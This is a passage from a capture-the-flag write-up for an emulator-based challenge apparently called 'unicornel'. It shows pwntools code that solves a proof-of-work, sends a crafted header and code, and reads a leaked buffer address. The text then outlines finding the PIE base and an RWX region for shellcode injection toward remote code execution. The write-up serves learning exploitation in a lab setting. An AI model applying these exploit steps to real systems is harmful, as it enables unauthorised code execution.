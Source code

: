 ```python

p.recvuntil(b' solve ')
p.recvuntil(b' solve ')
to_solve = p.recvline().strip().decode()
print(f"{to_solve}")

sol = os.popen(f"python3 kctf-pow.py solve {to_solve} 2>/dev/null").read() #kctf-pow solver
print(sol)
p.sendlineafter(b"Solution? ", sol.encode())

p.recvuntil(b' unicornel!')

# Given format of header for the emulator
header = flat(
    p32(unicorn.UC_ARCH_X86),
    p32(unicorn.UC_MODE_64),
    p64(0x1000), p64(0x1000),         
    b'\0' * 3 * 16,             
    p16(len(code)),              
    p8(1)                        
).ljust(80, b'\0')

p.sendline(b'')
p.recvuntil(b'DATA_START')
p.send(header)
p.recvuntil(b'CODE_START')
p.send(code)

p.recvuntil(b'pid 0\n')

leaked_buf_addr = int(p.recvline().strip().decode())
print(f'leaked addr = {hex(leaked_buf_addr)}')
```

This now gives us the leaked buffer. If you notice, the buffer address always ends with 012bf0, since PIE is enabled. Let's analyse this with gdb.

Running vmmap we can see the memory mapping, and also obtain the PIE base. Also if you notice, the trustzone with modified RWX permission is also there. We need to be able to find this address as well to inject the shellcode for RCE

![Memory map](./rwx-section.png)